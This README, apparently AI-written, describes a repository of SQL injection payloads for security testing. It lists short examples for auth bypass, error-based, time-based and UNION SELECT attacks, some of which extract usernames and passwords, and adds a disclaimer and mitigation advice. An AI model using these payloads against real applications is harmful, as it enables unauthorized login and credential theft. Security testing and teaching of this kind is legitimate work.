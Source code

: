 # Sql-Payload-list
Here’s a detailed README file for your SQL payload list:

---

# SQL Payload List

This repository contains a comprehensive collection of SQL payloads categorized for various SQL injection (SQLi) scenarios. These payloads are designed for security testing purposes and to help identify vulnerabilities in web applications.

## ⚠️ Disclaimer

This repository is intended for **ethical security testing and educational purposes only**. Unauthorized use of these payloads against systems without explicit permission is illegal and unethical. The authors of this repository do not take responsibility for misuse.

---

## 📂 Categories of Payloads

### 1. **Auth Bypass Payloads**
These payloads are designed to test authentication mechanisms for vulnerabilities that allow bypassing login screens.

Examples:
```sql
' OR 1=1 --
' OR '1'='1'
admin' --
```

---

### 2. **Error-Based SQLi Payloads**
Error-based SQL injection exploits database error messages to extract information about the database structure.

Examples:
```sql
' AND 1=CONVERT(int, (SELECT @@version)) --
' OR (SELECT 1/0) --
```

---

### 3. **SQL Injection Payloads**
General-purpose SQL injection payloads to test various SQLi vulnerabilities.

Examples:
```sql
' OR 1=1 --
' UNION SELECT NULL,NULL,NULL --
```

---

### 4. **Time-Based SQLi Payloads**
Time-based SQL injection uses conditional delays (e.g., `SLEEP`) to infer true/false outcomes.

Examples:
```sql
' OR IF(1=1, SLEEP(5), 0) --
' OR BENCHMARK(1000000, MD5(1)) --
```

---

### 5. **Union Select Payloads**
Union-based SQL injection retrieves data by combining multiple SELECT statements.

Examples:
```sql
' UNION SELECT username, password FROM users --
' UNION SELECT NULL, CONCAT(username, ':', password) FROM users --
```

---

## 💡 Usage

1. **Testing**: Use these payloads to test SQL injection vulnerabilities in a controlled and authorized environment.
2. **Learning**: Understand how different types of SQLi work and how to prevent them.
3. **Development**: Help developers and security professionals identify weak points in their systems.

---

## 🛠️ Mitigation Techniques

To protect against SQL injection attacks:
1. Use **parameterized queries** or **prepared statements**.
2. Implement robust **input validation**.
3. Use **ORMs** (Object Relational Mappers) to abstract direct SQL queries.
4. Keep your database systems and libraries **up-to-date**.
5. Employ **WAFs** (Web Application Firewalls) to monitor and block malicious payloads.

---

## 🚀 Contribution

Contributions are welcome! Please follow these steps:
1. Fork this repository.
2. Add your payloads in the respective category.
3. Submit a pull request with a detailed description.

---

## 📜 License

This repository is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

By using this repository, you agree to adhere to ethical practices and use it responsibly.
